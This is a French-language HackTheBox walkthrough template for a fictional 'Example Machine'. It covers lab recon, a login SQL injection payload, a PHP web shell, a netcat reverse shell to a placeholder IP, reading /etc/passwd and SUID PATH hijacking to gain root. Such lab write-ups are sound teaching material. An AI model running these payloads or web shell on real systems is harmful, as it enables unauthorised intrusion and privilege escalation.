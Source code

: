 # Example Machine - HTB Walkthrough

> **Note:** Ceci est un exemple de walkthrough pour démontrer le système. Remplacez ce contenu par vos propres walkthroughs.

## 📋 Informations

- **Machine:** Example Machine
- **Plateforme:** HackTheBox
- **OS:** Linux
- **Difficulté:** Medium
- **Date de résolution:** Janvier 2025

---

## 🎯 Résumé

Cette machine est un excellent exercice pour pratiquer l'exploitation web, l'énumération Linux et l'élévation de privilèges via des fichiers SUID.

**Compétences requises:**
- Énumération web basique
- SQL Injection
- Énumération Linux
- Recherche de vulnérabilités

**Compétences apprises:**
- Exploitation de SQLi avancée
- Élévation de privilèges via SUID
- Analyse de code source

---

## 🔍 Reconnaissance

### Scan Nmap

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.100
```

**Résultats:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```

### Énumération Web

En visitant le site web, on découvre une application de gestion avec plusieurs fonctionnalités.

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

**Découvertes importantes:**
- `/admin` - Panel d'administration (login requis)
- `/upload` - Fonctionnalité d'upload de fichiers
- `/api` - API endpoint

---

## 🚪 Point d'entrée initial

### Vulnérabilité SQL Injection

Le formulaire de login est vulnérable à l'injection SQL.

**Test basique:**
```http
POST /login HTTP/1.1
Host: 10.10.10.100

username=admin' OR 1=1--&password=anything
```

### Exploitation avec SQLMap

```bash
sqlmap -u "http://10.10.10.100/login" \
  --data="username=admin&password=test" \
  --dbs
```

Nous avons trouvé une base de données `webapp` contenant des credentials.

### Shell initial

Après avoir obtenu les credentials, nous pouvons uploader un reverse shell PHP:

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Sur notre machine
nc -lvnp 4444

# Via le navigateur
http://10.10.10.100/uploads/shell.php?cmd=nc -e /bin/bash VOTRE_IP 4444
```

Shell obtenu en tant que `www-data`.

---

## 👤 User Flag

### Énumération locale

```bash
# Listing des utilisateurs
cat /etc/passwd | grep -v nologin

# Recherche de fichiers intéressants
find /var/www -type f -name "*.conf" 2>/dev/null
```

Nous trouvons des credentials dans `/var/www/html/config.php`:

```php
$db_user = "developer";
$db_pass = "P@ssw0rd123!";
```

### Élévation vers l'utilisateur

Ces credentials fonctionnent en SSH:

```bash
ssh developer@10.10.10.100
```

**Flag User:**
```bash
cat /home/developer/user.txt
```

---

## 🔐 Root Flag

### Énumération privilèges

```bash
# Vérifier les binaires SUID
find / -perm -4000 2>/dev/null
```

On trouve un binaire custom `/opt/backup` qui est SUID root.

### Analyse du binaire

```bash
strings /opt/backup
```

Le binaire appelle `tar` sans chemin absolu !

### Privilege Escalation

Nous pouvons exploiter le PATH hijacking:

```bash
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
export PATH=/tmp:$PATH
/opt/backup
```

### Root Access

```bash
whoami
# root

cat /root/root.txt
```

---

## 🎓 Lessons Learned

### Ce que j'ai appris

1. **SQL Injection:** Comment identifier et exploiter une SQLi dans un formulaire de login
2. **Path Hijacking:** Technique d'élévation de privilèges via la manipulation du PATH
3. **Énumération:** L'importance de l'énumération approfondie des fichiers de configuration

### Points clés à retenir

- ⚠️ Toujours tester les inputs pour les injections SQL
- 💡 Vérifier les fichiers de configuration pour des credentials
- 🔑 Les binaires SUID custom sont souvent vulnérables

---

## 🛠️ Outils utilisés

- **Nmap** - Scan de ports
- **Gobuster** - Directory enumeration
- **SQLMap** - SQL Injection automation
- **Burp Suite** - Analyse des requêtes HTTP
- **Netcat** - Reverse shell

---

## ⚠️ Disclaimer

Ce walkthrough est à but éducatif uniquement. N'utilisez ces techniques que sur des machines auxquelles vous avez l'autorisation d'accéder (comme HackTheBox, TryHackMe, etc.).

---

**Date de rédaction:** Janvier 2025  
**Auteur:** Samuel Tesson
